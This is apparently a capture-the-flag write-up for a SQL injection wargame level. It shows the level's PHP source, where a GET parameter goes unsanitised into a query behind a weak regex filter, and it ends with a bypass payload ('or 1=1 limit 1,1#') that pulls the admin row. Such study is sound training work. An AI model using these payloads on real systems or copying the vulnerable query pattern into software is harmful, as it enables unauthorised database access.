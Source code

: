 ```php <?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

explain:

- check prob, ., _, (), ', ", ` 
- /..../i : ignore lower and upper case

Solve: 

1 is `no` of `guest` so, we just negate this query `where id= 'guest'`

query sample: `select id from prob_goblin where id='guest' and no= 2 or id=admin`

Let try using query `select id from prob_goblin where id='guest' and no= 2 or 1=1`, 
web server return `true`, `guest` called

so we all know, `or 1=1` is exactly query we need, so let extract data on first column 

(according my experiment `admin` always on top table)

so, query to solv this chall is 

Payload: `select id from prob_goblin where id='guest' and no= 2 or 1=1 limit 1,1#`

